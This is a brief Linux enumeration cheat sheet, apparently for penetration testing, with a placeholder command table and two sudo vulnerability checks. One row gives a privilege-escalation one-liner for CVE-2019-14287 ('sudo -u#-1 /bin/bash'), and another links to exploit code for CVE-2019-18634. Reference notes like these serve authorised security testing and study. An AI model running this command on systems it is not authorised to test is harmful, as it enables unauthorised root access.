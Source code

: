 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| placeholder | This is placeholder text |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
